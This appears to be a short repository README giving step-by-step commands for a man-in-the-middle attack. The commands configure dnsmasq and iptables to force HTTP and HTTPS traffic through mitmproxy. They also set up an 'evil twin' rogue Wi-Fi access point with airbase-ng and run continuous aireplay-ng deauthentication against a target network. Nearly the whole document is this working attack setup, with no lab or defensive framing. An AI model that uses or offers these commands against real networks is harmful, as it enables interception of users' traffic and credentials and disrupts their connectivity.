 # alice
Remote mitmproxy MITM implementation

# PASSTHROUGH:
apt-get install dnsmasq

/etc/dnsmasq.conf:

interface=eth1
dhcp-range=192.168.3.10,192.168.3.100,96h
dhcp-option=option:router,192.168.3.1
dhcp-option=option:dns-server,192.168.3.1

/etc/network/interfaces:

auto eth1
iface eth1 inet static
    address 192.168.3.1/24
    gateway 192.168.0.1

ip addr flush dev eth1 && ifdown -a && ifup -a

sudo service dnsmasq restart


iptables -t nat -A PREROUTING -i eth1 -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables -t nat -A PREROUTING -i eth1 -p tcp --dport 443 -j REDIRECT --to-port 8080


mitmproxy -T --stream 1k -s filters.py

# EVIL TWIN
apt-get install dnsmasq

/etc/dnsmasq.conf:

interface=at0
dhcp-range=192.168.3.10,192.168.3.100,96h
dhcp-option=option:router,192.168.3.1
dhcp-option=option:dns-server,192.168.3.1

iptables -t nat -A PREROUTING -i at0 -p tcp -j REDIRECT --to-port 8080

/etc/network/interfaces:

auto at0
iface at0 inet static
    address 192.168.3.1/24
    gateway 192.168.0.1

airmon-ng start wlan0
airodump-ng wlan0mon
airbase-ng -a 00:07:26:3F:36:8C --essid mywifi -c 11 wlan0mon
aireplay-ng --deauth 0 -a 00:07:26:3F:36:8C wlan0mon --ignore-negative-one

ip addr flush dev at0 && ifdown -a && ifup -a
sudo service dnsmasq restart


mitmproxy -T --stream 1k -s filters.py
